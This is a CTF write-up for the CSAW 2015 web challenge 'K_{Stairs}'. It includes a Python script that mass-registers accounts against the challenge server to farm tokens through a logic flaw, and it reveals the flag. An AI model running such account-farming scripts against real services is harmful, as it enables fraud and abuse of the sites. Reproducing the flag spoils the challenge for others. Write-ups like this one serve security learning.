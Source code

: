 ```yaml
---
layout: post
title:  "CSAW - K_{Stairs}"
date:   2015-09-21 19:00
categories: csaw2015
tags: security ctf csaw2015 cryptography
description: A web challenge for 100 points
---
```


**Category** : Web 

**Points** : 100

**Contributor** : [Marc-Olivier Bergeron](https://github.com/MOBergeron)

***

#Write-up
At the start of the CTF, this challenge was worth 50 points, but they changed it for 100 points. We realized that when you register/logout you get three more tokens each time. In that challenge, you need 10 tokens to buy a compass and one token for a pack of five food item.

My partner created a python script that create many account. Then, it returns the cookie that you can replace with your current one. So, with that script you don't need to manually create an account to have more tokens.

###Script by [MOBergeron](https://gist.github.com/MOBergeron/a34e719e4587257defab)
{% highlight python %}
import hashlib
import requests

if __name__ == "__main__":
	u = 199999 # Change this everytime you run the script to have different user names
	
	urlRegister = "http://54.209.88.227/register"
	urlLogout = "http://54.209.88.227/logout"

	s = requests.session()
	
	for i in range(50): # Change this if you need more or less tokens
		username = hashlib.sha1(str(u)).hexdigest()
		user1 = username[:len(username)/2]
		user2 = username[len(username)/2:]
		# Login 1
		r = s.post(urlRegister, data={'user':user1,'pass':'','login':'register'})
		s.get(urlLogout)

		# Login 2
		r = s.post(urlRegister, data={'user':user2,'pass':'','login':'register'})
		
		if(i < 49):
			s.get(urlLogout)
		u+=1

	print(r.cookies)
{% endhighlight %}

Then, you just need to buy a compass, foods and follow the compass indication to find the stairs.

And when we reached the stairs we got this message:

“Your compass indicates you are going the right way. You found the exit... You win! You find the key on a piece of paper: KEY{H0000LY_ST41rRs_S0000_MUCH_SPACE}. Then a grue gets you. You die.”



